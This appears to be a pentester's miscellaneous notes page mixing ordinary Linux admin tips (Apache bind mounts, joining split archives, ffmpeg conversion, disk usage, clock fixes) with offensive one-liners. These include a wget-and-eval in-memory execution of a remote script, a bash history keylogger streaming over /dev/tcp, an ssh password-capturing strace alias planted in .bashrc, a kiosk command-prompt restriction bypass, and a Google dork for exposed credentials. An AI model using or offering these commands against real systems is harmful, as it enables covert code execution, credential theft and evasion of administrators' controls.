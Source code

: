 # Random

### Cool heredoc&#x20;

* Use when you are on a `/bin/sh` and need to `su` but dont want to go into a full `tty`

```
su - root <<!
Passw0rd
id
ls /root
!
Password: uid=0(root) gid=0(root) groups=0(root)
Desktop  Documents  Downloads  go  Music  Pictures  Public  Templates  thinclient_drives  Videos
```

### Bypass a disabled command prompt with /k

```
# Win+R (To bring up Run Box)
cmd.exe /k "whoami"
```

**Description:** _'This command prompt has been disabled by your administrator...' Can usually be seen in environments such as kiosks PCs, a quick hacky work around is to use /k via the windows run box. This will carry out the command and then show the restriction message, allowing for command execution._

### _Luks On USBs_

* [https://geekyshacklebolt.wordpress.com/2019/03/06/how-to-encrypt-usb-drives-with-luks/](https://geekyshacklebolt.wordpress.com/2019/03/06/how-to-encrypt-usb-drives-with-luks/)

### Bash In memory exec one liner&#x20;

```
bash -c CMD="`wget -qO- http://<ip>/script.sh`" && eval "$CMD"
```

### Bash Keylogger&#x20;

```
PROMPT_COMMAND='history -a; tail -n1 ~/.bash_history > /dev/tcp/127.0.0.1/9000'
```

### SSH Client Strace Keylogger

* Poor mans keylogger for ssh client but it works. Add to the users `.bashrc`&#x20;

```
alias ssh='strace   -o   /tmp/sshpwd-`date    '+%d%h%m%s'`.log -e read,write,connect  -s2048 ssh' 
```

* remember to source the `.bashrc`
* `source ~/.bashrc`

### Apache map external drive to webroot

* Create a directory on the external HDD, assuming it is mounted under the `/media` directory, like so:

```
sudo mkdir /media/web_files
```

* Change the ownership of this directory and all the files under it to be owned by the Apache user `www-data` like so:

```
sudo chown -R www-data:www-data /media/web_files/
```

* Create a directory under the web root directory ie `/var/www/html/` like so:

```
sudo mkdir /var/www/html/external_files
```

* Bind the `/media/web_files/` directory to the `/var/www/html/external_files/` directory like so:

```
sudo mount --bind /media/web_files/ /var/www/html/external_files/
```

* All files on the external HDD under the `/media/web_files/` directory will be available for Apache under the `/var/www/html/external_files/` directory and you can link to them in your web page that resides in `/var/www/html/` like so:

```
<a href="external_files/file1.mp4">file1</a>
```

### Unzip a chunked archive

* you will see files ending in .001, .002 etc etc&#x20;
*   You will need to join them first. You may use the common linux app, `cat` as in the example below:

    ```
    cat test.zip* > ~/test.zip
    ```

    This will concatenate all of your `test.zip.001`, `test.zip.002`, etc files into one larger, test.zip file. Once you have that single file, you may run `unzip test.zip`

## [How to convert .mkv file into .mp4 file losslessly?](https://askubuntu.com/questions/50433/how-to-convert-mkv-file-into-mp4-file-losslessly)

```
ffmpeg -i input.mkv -codec copy output.mp4
```

### Cool Google Dorks&#x20;

```
inurl:/wp-content/uploads/ ext:txt "username" AND "password" | "pwd" | "pw"
```

### What is taking up space Linux

* I recently ran out of disk space on my Ubuntu machine, here is a quick way to see what is taking up all that space

```
root@dev:/opt# du -cha --max-depth=1 / 2>/dev/null | grep -E "M|G" 
3.9M	/run
19G	/opt
18M	/etc
18G	/home
18G	/usr
1.6G	/media
918M	/root
517M	/Kismet-20240630-21-57-41-1.kismet
11G	/snap
2.1G	/swapfile
145G	/tmp
7.3G	/var
194M	/boot
221G	/
221G	total
root@dev:/opt# cd /var
root@dev:/var# du -cha --max-depth=1 /var 2>/dev/null | grep -E "M|G" 
6.5G	/var/lib
6.5M	/var/backups
291M	/var/cache
99M	/var/crash
5.0M	/var/snap
427M	/var/log
7.3G	/var
7.3G	total
```

### Fix x11 graphical error

```
xhost +SI:localuser:root
xhost
```

### Fix Date Issue On Ubuntu

* I recently had severe time drift on a machine that is prevented from reaching the internet
* Provide the host internet access for a small time window and fix with a one liner

```
timedatectl
               Local time: Thu 2024-11-21 03:43:31 EST
           Universal time: Thu 2024-11-21 08:43:31 UTC
                 RTC time: Fri 2014-09-05 09:12:41
                Time zone: America/New_York (EST, -0500)
System clock synchronized: no
              NTP service: active
          RTC in local TZ: no
sudo date -s "$(wget -qSO- --max-redirect=0 google.com 2>&1 | grep Date: | cut -d' ' -f5-8)Z"

```
